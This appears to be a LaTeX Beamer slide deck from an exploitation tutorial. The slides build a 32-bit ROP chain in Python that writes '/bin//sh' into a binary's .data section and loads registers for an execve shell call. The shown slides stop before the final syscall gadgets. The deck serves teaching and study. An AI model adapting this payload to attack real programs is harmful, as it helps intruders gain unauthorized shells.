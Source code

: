 \documentclass[11pt]{beamer}
\begin{document}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin}
    \begin{lstlisting}[style=code, language=python]
from struct import pack

p = 'AAAABBBBCCCC'
p += str(pack\('<I', 0x080958b5\)\) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f6c\)\) # @ .data
p += str(pack\('<I', 0x00000000\)\) # @ NULL
p += str(pack\('<I', 0x080b526a\)\) # pop eax ; ret
p += '/bin'
p += str(pack\('<I', 0x08059402\)\) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, writing //sh}
    \begin{lstlisting}[style=code, language=python]
p += str(pack\('<I', 0x080958b5\)\) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f70\)\) # @ .data + 4
p += str(pack\('<I', 0x00000000\)\) # @ NULL
p += str(pack\('<I', 0x080b526a\)\) # pop eax ; ret
p += '//sh'
p += str(pack\('<I', 0x08059402\)\) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, init params}
    \begin{lstlisting}[style=code, language=python]
# write null byte after /bin/sh
p += str(pack\('<I', 0x080958b5\)\) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f74\)\) # @ .data + 8
p += str(pack\('<I', 0x00000000\)\) # @ NULL
p += str(pack\('<I', 0x080506c0\)\) # xor eax, eax ; ret
p += str(pack\('<I', 0x08059402\)\) # mov dword ptr [edx], eax ; ret
# write address of /bin/sh to ebx
p += str(pack\('<I', 0x08049022\)\) # pop ebx ; ret
p += str(pack\('<I', 0x080f0f6c\)\) # @ .data
# arguments and environment to ecx,edx
p += str(pack\('<I', 0x0805e64f\)\) # pop ecx; add al, 0xf6; ret;
p += str(pack\('<I', 0x080f0f74\)\) # @ .data + 8
p += str(pack\('<I', 0x080958b5\)\) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f74\)\) # @ .data + 8
p += str(pack\('<I', 0x00000000\)\) # @ NULL
    \end{lstlisting}
\end{frame}
\end{document}
